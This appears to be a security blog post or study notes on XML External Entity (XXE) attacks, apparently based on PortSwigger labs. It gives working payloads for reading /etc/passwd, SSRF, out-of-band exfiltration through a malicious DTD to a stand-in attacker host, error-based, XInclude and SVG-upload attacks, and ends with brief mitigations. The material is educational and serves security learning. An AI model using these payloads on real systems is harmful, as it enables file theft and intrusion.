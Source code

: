 ```yaml
---
title: "XML External Entity"
tags:
    - WEB
    - xxe
date: "2024-08-8"
thumbnail: "/assets/img/thumbnail/xxe.png"
bookmark: true
---
```

# Description
---
Some applications use the XML format to transmit data between the browser and the server
`XML:` Extensible Markup Language, commonly used for data representation and transfer.
`External Entity:` A reference within the XML document to an external resource, which can be a file, URL, or another data source
# Impact 
use external entities to →
It often allows an attacker to view files on the application server filesystem, and to interact with any back-end or external systems that the application itself can access.
T**Types of XXE attacks:**
1- Exploiting XXE to retrieve files
2- Exploiting XXE to perform SSRF attacks
3- Exploiting blind XXE to exfiltrate data out-of-band
4- Exploiting blind XXE to retrieve data via error messages
# Scenarios 
Tip : "GET request for XML not found" changes the request to POST with XXE payload
 1- **retrieve the `/etc/passwd`file**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
 2- **XXE to SSRF**
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>`
```
 3- **Blind XXE with out-of-band interaction**
```xml
<!DOCTYPE stockCheck [ <!ENTITY [xxe](https://portswigger.net/web-security/xxe) SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>

<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```
 4- **Exploiting blind XXE to exfiltrate data using a malicious external DTD with (BURP-COLLABORATOR)**

in malicious DTD file:
```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;
```
in Request:
```xml
<!DOCTYPE foo [<!ENTITY % [xxe](https://portswigger.net/web-security/xxe) SYSTEM "YOUR-DTD-URL"> %xxe;]>
```
 5- **Exploiting blind XXE to retrieve data via error messages**
in malicious DTD file:
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```
in Request:
```xml
<!DOCTYPE foo [<!ENTITY % [xxe](https://portswigger.net/web-security/xxe) SYSTEM "YOUR-DTD-URL"> %xxe;]>
```
 6- **using local DTD**

1- find DTD file already exists on server , we use this list https://github.com/GoSecure/dtd-finder/tree/master/lists
with intruder in tis Request
<img src="/assets/img/xxe/1.png">
2- use this code 
https://github.com/GoSecure/dtd-finder/blob/master/list/xxe_payloads.md

```xml
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```
 7- **XInclude attacks**
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```
<img src="/assets/img/xxe/2.png">

 8- **Exploiting XXE via image file upload**

SVG image with the following content:
```xml
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY [xxe](https://portswigger.net/web-security/xxe) SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```
---
# mitigation
---
- Disable External Entities: Configure the XML parser to disable the resolution of external entities.
- Use Safe Parsers: Utilize XML parsers that are known to be secure against XXE attacks.
- Input Validation: Validate and sanitize all user inputs, especially XML data, to ensure it doesn't contain malicious content.

---
